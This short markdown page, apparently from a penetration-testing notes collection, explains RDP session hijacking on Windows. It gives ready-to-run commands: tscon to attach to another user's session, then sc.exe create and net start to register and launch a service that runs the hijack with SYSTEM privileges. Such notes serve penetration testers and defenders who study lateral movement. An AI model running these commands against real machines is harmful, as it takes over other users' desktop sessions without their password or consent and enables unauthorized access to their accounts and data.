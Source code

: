 # RDP Session Hijacking

To successfully impersonate a user without their password, we need to have `SYSTEM` privileges and use the Microsoft [tscon.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/tscon) binary that enables users to connect to another desktop session. It works by specifying which `SESSION ID` we would like to connect to which session name . So, for example, the following command will open a new console as the specified `SESSION_ID` within our current RDP session:

{% code title="Use "query user" to find out" %}
```cmd-session
tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```
{% endcode %}

```cmd-session
sc.exe create sessionhijack binpath= "cmd.exe /k tscon {ID} /dest:{Session-name}
```

```cmd-session
net start sessionhijack
```

\
